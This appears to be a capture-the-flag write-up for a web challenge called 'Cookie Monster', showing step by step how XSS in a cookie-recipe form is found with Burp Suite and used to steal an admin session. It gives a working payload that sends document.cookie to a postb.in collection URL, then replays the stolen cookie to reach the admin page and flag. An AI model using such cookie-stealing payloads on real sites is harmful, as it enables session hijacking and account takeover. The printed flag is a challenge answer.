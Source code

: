 # WORK IN PROGRESS

# Cookie Monster
* **Category**: Web Security
* **Points**: 200
* **Challenge**: Lets make some yummy cookies! Maybe you can even find some extra tasty ones: http://challenge.acictf.com:27734.
* **Hint #1**: If only we could inspect the device's memory while it is running...
* **Hint #2**: You can control the value so select all you want.
* **Hint #3**: If you need an endpoint for a callback, postb.in is a useful resource. You could also run a simple server on the competition's shell server using a command like python -m SimpleHTTPServer.

<br />

First lets navigate to the challenge in a web browser:
```
http://challenge.acictf.com:27734.
```
![cookiemonster](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/cookiemonster.JPG)

<br />

If we click *more info*, there is a hidden link to *Cookie Admin* under the *Cookie* section.  Trying to navigate to this page gives an HTTP 403 Forbidden error message, so we will need to authenticate as an admin if we want to see the page.

Based on the name of the challenge and some of the hints, we can assume that we are going to [stealing cookies via XSS](https://www.openlearning.com/u/ivanteong/blog/StealingCookiesViaXssUsingPhpOrRequestbin/).  Lets submit a cookie to the cookie monster (random name and ingredients) and [capture the POST request in Burp Suite](https://portswigger.net/burp/documentation/desktop/tools/proxy/getting-started):

<br />

![burp1](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/burp1.JPG)

<br />

There are two parameters potentially vulnerable to XSS, *name* and *ingredients*.  Lets use a simple JavaScript alert to see if the site is vulnerable to Reflected XSS:
```
<script>alert("XSS!")</script>
```

<br /> 

Now place the JavaScript alert in place of one of the ingredients in Burp Suite: 
```
name=Sugar&ingredients=<script>alert("XSS!")</script>&ingredients=sugar&ingredients=eggs&ingredients=Add+ingredient
```

<br /> 

Forward the POST request Burp Suite and we get an alert message on the next page:

<br /> 

![alert](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/alert.JPG)

<br /> 

Now that we know the site is vulnerable to XSS, we can use that to obtain the admin session cookie.  When we slected submit cookie for approval we recived another alert message and a statement saying taht the cookie monster is viewing our cookie.  That will be the point where we should get the cookie.

Use postb.in to received the admin cookie from the victims browser.  After selecting *create bin*, use the URL to craft malicious JavaScript: 
```
<script>new Image().src='https://postb.in/1589765685538-7717803197447/malicious.php?code='%2Bdocument.cookie</script>
```

<br /> 

Inject the malicious Javascript into the POST just like we did with the alert messsage:
and submit the cookie for approval
```
name=Sugar&ingredients=<script>new Image().src='https://postb.in/1589765685538-7717803197447/malicious.php?code='%2Bdocument.cookie</script>&ingredients=sugar&ingredients=eggs&ingredients=Add+ingredient
```

Refresh the PostBin page and you should see the admin cookie:

<br />

![admincookie](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/admincookie.JPG)

<br />

Now that we have the admin cookie 'b4697910-6dbc-4836-851b-a14e7a5bb7d0', we can use this to navigate to the *Cookie Admin* page.  Intercept the GET request in BurpSuite and replace your cookie with the admin cookie:

![burp2](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/burp2.JPG)

<br />

We are presented with a page with a link to *Flag Cookie*.  Click it to get the flag:


<br />

![flagcookie](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/flagcookie.JPG)

<br />

## Flag: ACI{07c3bc112a56b3d9512b6a54148}




